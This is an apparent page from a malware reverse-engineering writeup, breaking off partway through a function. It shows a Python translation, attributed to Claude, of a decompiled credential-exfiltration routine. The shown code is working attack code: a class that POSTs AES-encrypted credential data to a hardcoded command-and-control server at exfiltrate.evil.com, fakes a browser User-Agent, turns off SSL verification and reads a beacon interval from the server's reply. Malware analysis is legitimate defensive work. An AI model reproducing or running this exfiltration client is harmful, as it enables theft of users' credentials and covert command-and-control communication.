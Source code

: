 **From:** `enhanced/exfiltrate_http.c`

**Claude's Python Translation:**

```python
# exfiltration.py
"""
HTTP exfiltration module
Translated from: exfiltrate_http.c (enhanced)
"""

import requests
from typing import Optional

class DataExfiltrator:
    """Handle C2 communication and data exfiltration

    Original function: exfiltrate_http() at 0x403000
    """

    def __init__(self):
        """Initialize C2 communication

        C2 server extracted from static analysis (offset 0x6000)
        """
        # Hardcoded C2 server (found by REVENG)
        self.c2_server = "https://exfiltrate.evil.com"
        self.upload_endpoint = "/api/upload"

        # User-Agent (found at offset 0x6100)
        self.user_agent = "Mozilla/5.0 (Windows NT 10.0; Win64; x64)"

        self.session = requests.Session()
        self.session.headers['User-Agent'] = self.user_agent

    def exfiltrate(self, encrypted_data: bytes) -> bool:
        """Send encrypted data to C2 server

        Args:
            encrypted_data: AES-encrypted credential JSON

        Returns:
            True if successful, False otherwise

        Original function: exfiltrate_http() at 0x403000
        Protocol: HTTP POST with binary body
        """
        try:
            # POST encrypted data (malware used raw binary POST)
            # Original function: send_http_post() at 0x403200
            response = self.session.post(
                f"{self.c2_server}{self.upload_endpoint}",
                data=encrypted_data,
                headers={'Content-Type': 'application/octet-stream'},
                timeout=30,
                verify=False  # Malware disabled SSL verification
            )

            # Check response (malware checked for status 200)
            if response.status_code == 200:
                # Parse C2 response (found: {"status": "ok", "next_beacon": 3600})
                response_data = response.json()
                next_beacon = response_data.get('next_beacon', 3600)
                print(f"Exfiltration successful. Next beacon in {next_beacon}s")
                return True
```